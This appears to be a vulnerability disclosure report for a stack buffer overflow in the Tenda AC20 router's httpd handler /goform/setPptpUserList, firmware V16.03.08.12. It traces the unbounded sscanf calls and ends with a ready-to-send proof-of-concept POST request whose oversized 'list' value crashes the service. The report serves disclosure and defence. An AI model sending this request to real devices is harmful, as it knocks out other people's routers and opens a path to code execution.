



**Affected Product**: Tenda AC20 Router

**Affected Firmware Versions**:  V16.03.08.12

**Vulnerability Type**: Buffer Overflow Vulnerability


------
### **Vulnerability Description**

A stack overflow vulnerability exists in the `list` parameter of the `/goform/setPptpUserList` handler within the `/bin/httpd` binary of the Tenda AC20 router running the latest firmware version V16.03.08.12. This flaw can lead to denial-of-service attacks and arbitrary command execution.

---
### **Vulnerability Details**
In the `httpd` binary, the function corresponding to `/goform/setPptpUserList` is `formSetPPTPUserList`.



Then, the `formSetPPTPUserList` function calls the `set_pptpuser_list` function.


The `set_pptpuser_list` function first uses `webGetVar` to retrieve the value of the `list` parameter from `a1` and assign it to `s`. It then uses `strspn` to skip leading `"~"` characters and assigns the pointer to the remaining valid content to `v20`.



It then calls `getEachListFromWeb`, where the `"%[^;]"` and `"%s"` format specifiers in `sscanf` do not define maximum field widths, and the `v21` buffer is smaller than `v20`, resulting in a stack overflow vulnerability.
.


---
### **PoC**
```
POST /goform/setPptpUserList HTTP/1.1
Host: 192.168.254.139
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 308
Origin: http://192.168.254.139
Connection: close
Priority: u=0

list=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```

After the request was sent, a segmentation fault occurred in the service:

.

